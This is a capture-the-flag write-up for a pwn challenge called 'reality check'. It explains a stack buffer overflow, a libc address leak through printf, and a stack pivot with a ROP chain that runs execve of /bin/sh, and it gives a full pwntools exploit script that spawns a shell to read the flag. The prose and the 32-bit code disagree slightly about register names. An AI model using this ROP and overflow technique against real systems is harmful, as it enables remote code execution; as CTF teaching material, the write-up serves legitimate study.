

# reality check
In this task our goal is to get control of rip and rsp for providing ROP-chain to make the execve(“/bin/bash”, 0, 0) syscall.

When executing a program, we have two choices that lead us to reality or fake_reality function. Both gives us a gift.

Function reality gives us an address to the printf and then asks us for the choice. If choice is equal to 1, then it calls a fake_reality function.

Function fake_reality has a buffer overflow vulnerability. It reads 70 bytes from stdin to buffer with size 54. Stack has no protection, so we can simply overwrite 16 bytes just after the buffer and control rip.

Our steps are looks like:

1.	Make the second choice in main to get to the reality function.
2.	Calculate libc base address by the pointer to printf.
3.	Make the first choice in reality to get to the fake_reality function.
4.	Knowing the address of the buffer, write a ROP-chain to it and use overflow to set rbp to our buffer and rip to (leave; ret) address. That causes rsp to point on the buffer that already contains ROP-chain. After this step, we must get a shell..
5.	When getting shell, execute “cat flag.txt” to get a flag.
There is the script that doing all this steps:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./reality_check --host docker.hackthebox.eu --port 30565
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./reality_check')

if exe.bits == 32:
    lindbg = "/root/linux_server"
else:
    lindbg = "/root/linux_server64"

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'docker.hackthebox.eu'
port = int(args.PORT or 30565)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe.path] + argv, *a, **kw)
    elif args.QIRA:
        return process(['qira', exe.path] + argv, *a, **kw)
    elif args.IDA:
        return process([lindbg], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     i386-32-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

libc = ELF('./libc.so.6')

POP_ECX = 0x001938e8
POP_EBX = 0x00018c85
POP_EDX = 0x00001aae
POP_EAX = 0x00024b27
INT80 = 0x00002d37
BIN_SH = 0x17B88F
LEAVE_RET = 0x804925B

io = start()

io.recvuntil('> ')
io.sendline('2')

io.recvuntil('[')
printf = int(io.recvuntil(']')[:-1], 16)

io.recvuntil('> ')
io.sendline('1')

io.recvuntil('[')
buf = int(io.recvuntil(']')[:-1], 16)

libc.address = printf - 0x50C60

print('printf:', hex(printf))
print('buf:', hex(buf))
print('libc base:', hex(libc.address))

io.recvuntil('> ')

pl = p32(libc.address + POP_EBX) + p32(libc.address + BIN_SH)
pl += p32(libc.address + POP_ECX) + p32(0)
pl += p32(libc.address + POP_EDX) + p32(0)
pl += p32(libc.address + POP_EAX) + p32(11)
pl += p32(libc.address + INT80)
pl += cyclic(22)
pl += p32(buf-4) + p32(LEAVE_RET)

print('payload length:', len(pl))

io.send(pl)
sleep(0.5)

io.sendline('cat flag.txt')

io.interactive()
```

Screenshot of the script execution:

